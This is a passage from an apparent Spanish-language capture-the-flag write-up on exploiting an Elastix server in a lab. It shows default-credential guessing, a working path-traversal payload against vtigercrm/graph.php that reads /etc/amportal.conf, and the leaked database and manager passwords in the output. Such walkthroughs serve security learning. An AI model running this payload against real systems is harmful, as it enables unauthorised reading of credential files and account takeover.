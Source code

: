 Estaría bien averiguar la versión, y si no siempre se puede ir probando cada exploit. Si no encontrará la versión la que probaría antes seguramente sería la de Local File Inclusion ya que es una vulnerabilidad sencilla de probar, y si funciona seguramente sea esa la versión.

Miro en la página fuente y no veo la versión. Podría buscar el programa por internet y si es de código abierto quizás averiguar alguna ruta donde pueda salir la versión, no lo hacer.  
Pruebo algunas credenciales por defecto de elastix, recogidas por internet como; admin:palosanto, admin:admin, admin:password, pero nada.

Echaré un vistazo al exploit del Local File Inclusión; `searchsploit -x 37637`. Parece que el LFI está en la siguiente ruta:

```plaintext
...SNIP ...
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
... SNIP ....
```

Simplemente copio esa ruta y la pego después de la IP objetivo y comprobar que funciona:

```plaintext
# En la URL del navegador:
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Y funciona, tenemos **LFI** y la versión del Elastix debe ser la **2.2.0**. Abrimos la página fuente de la página para ver mejor ese amportal.conf. Vemos cositas:

```plaintext
.. SNIP ...
# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

# AMPBIN: Location of the FreePBX command line scripts
# AMPSBIN: Location of (root) command line scripts
#
AMPBIN=/var/lib/asterisk/bin
AMPSBIN=/usr/local/sbin

# AMPWEBROOT: Path to Apache's webroot (leave off trailing slash)
# AMPCGIBIN: Path to Apache's cgi-bin dir (leave off trailing slash)
# AMPWEBADDRESS: The IP address or host name used to access the AMP web admin
#
AMPWEBROOT=/var/www/html
AMPCGIBIN=/var/www/cgi-bin 
# AMPWEBADDRESS=x.x.x.x|hostname

# FOPWEBROOT: Path to the Flash Operator Panel webroot (leave off trailing slash)
```